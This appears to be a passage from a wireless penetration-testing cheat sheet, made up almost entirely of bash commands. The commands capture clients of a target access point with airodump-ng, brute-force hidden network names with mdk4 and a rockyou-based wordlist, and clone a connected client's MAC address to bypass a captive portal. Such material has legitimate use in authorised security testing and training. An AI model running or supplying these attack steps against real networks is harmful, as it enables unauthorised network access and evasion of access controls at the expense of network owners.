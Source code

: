 ### Client Analysis

```bash
# Monitor specific AP for clients
sudo airodump-ng wlan0mon -c [CHANNEL] --bssid [AP_MAC] -w ~/wifi/clients

# Analyze probe requests (look at bottom section of airodump output)
```

### Hidden SSID Discovery

```bash
# Create custom wordlist with wifi- prefix
cat ~/rockyou-top100000.txt | awk '{print "wifi-" $1}' > ~/wifi-rockyou.txt

# Brute force hidden ESSID
airmon-ng start wlan0 
iwconfig wlan0mon channel [CHANNEL]
mdk4 wlan0mon p -t [HIDDEN_AP_MAC] -f ~/wifi-rockyou.txt
```

## Open Networks (OPN)

### Connection Configuration

```bash
# Create connection profile for open network
cat > free.conf << EOF
network={
    ssid="[NETWORK_NAME]"
    key_mgmt=NONE
    scan_ssid=1
}
EOF

# Connect to network
wpa_supplicant -Dnl80211 -iwlan2 -c free.conf &
dhclient wlan2 -v
```

### MAC Address Spoofing for Captive Portal Bypass

```bash
# Stop network manager
systemctl stop network-manager

# Change MAC to connected client
ip link set wlan2 down
macchanger -m [CLIENT_MAC] wlan2
ip link set wlan2 up

# Reconnect
wpa_supplicant -Dnl80211 -iwlan2 -c free.conf &
dhclient wlan2 -v
```
